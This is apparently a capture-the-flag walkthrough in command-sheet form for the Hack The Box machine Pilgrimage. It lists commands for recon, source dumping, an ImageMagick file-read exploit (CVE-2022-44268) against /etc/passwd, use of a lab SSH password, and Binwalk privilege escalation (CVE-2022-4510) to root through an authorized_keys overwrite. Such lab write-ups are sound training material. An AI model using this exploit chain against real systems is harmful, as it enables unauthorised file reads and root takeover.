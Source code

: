 # 🛐 HTB: Pilgrimage

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 📡 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.219
nmap -p 22,80 -sCV 10.10.11.219
nmap -p 22,80 -sCV pilgrimage.htb
```

### Add to `/etc/hosts`

```bash
echo "10.10.11.219 pilgrimage.htb" | sudo tee -a /etc/hosts
```

### Directory and subdomain fuzzing

```bash
ffuf -u http://pilgrimage.htb -H "Host: FUZZ.pilgrimage.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
feroxbuster -u http://pilgrimage.htb -x php
```

## 📥 Git Dump / Source Discovery

```bash
pipx install git-dumper
git-dumper http://pilgrimage.htb .git-dump
```

## 🧙 ImageMagick File Read — CVE-2022-44268

### Manual image with malicious metadata

```bash
pngcrush -text a "profile" "/etc/passwd" input.png
mv pngout.png malicious.png
```

### Identify output

```bash
identify -verbose shrunked_file.png
```

### Extract raw data from profile

```bash
identify -verbose shrunked.png | grep -Pv "^( |Image)" | xxd -r -p > outputfile
```

### Python POC

```bash
python CVE-2022-44268.py --image input.png --file-to-read /etc/passwd --output malicious.png
python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/<filename>.png
```

## 🧬 SQLite Extraction

```bash
sqlite3 pilgrimage.sqlite
.tables
.schema users
SELECT * FROM users;
```

## 🔐 [Initial Shell as emily](SSH)

```bash
sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
```

## 🔎 Enumeration (Local)

```bash
ps auxww
sudo -l
find / -perm -4000 -user root 2>/dev/null
```

### Test `inotifywait`

```bash
inotifywait -m -e create /dev/shm
echo "test" > /dev/shm/test.txt
```

## 🐚 Root PrivEsc — Binwalk Plugin Abuse (CVE-2022-4510)

### Check version

```bash
binwalk -h
```

### Create plugin image exploit (SSH via `authorized_keys` overwrite)

```bash
python walkingpath.py ssh exploit.png ~/keys/ed25519_gen.pub
```

### Upload it into monitored folder

```bash
scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```

### Get root shell

```bash
ssh -i ~/keys/ed25519_gen root@pilgrimage.htb
```